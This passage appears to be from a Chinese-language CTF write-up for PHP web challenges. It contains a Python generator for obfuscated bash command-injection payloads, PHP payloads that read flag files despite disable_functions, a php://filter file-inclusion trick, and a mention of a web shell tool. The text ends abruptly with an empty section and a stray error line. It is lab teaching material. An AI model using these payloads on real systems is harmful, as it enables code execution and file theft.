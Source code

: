 > 
> payload='__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
> for c in cmd:
>         payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')
> 
> payload+='\\\''
> 
> print(payload)
> ```

## Web58

这题使用的disable_function，执行系统命令的函数都用不了，所以只能使用php自带的函数读取flag，要么就绕过disable_function

![web58_disable](./image/web58_disable.png)

### 思路一

payload：

``````
c=print_r(scandir(pos(localeconv())));
c=show_source(scandir(pos(localeconv()))[2]);
c=show_source(next(array_reverse(scandir(pos(localeconv())))));
``````

### 思路二

直接上蚁剑，可以获取flag

![web58_antsword](./image/web58_antsword.png)

要想执行命令使用蚁剑插件[绕过disable_functions]

![web58_shell](./image/web58_shell.png)

### 思路三：参数逃逸文件包含

`c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php`

## Web59

### 方法一：php命令读文件

payload：

### php获取当前路径的方法

```php
getcwd()
dirname('FILE')
```


[ERROR]: could not find driver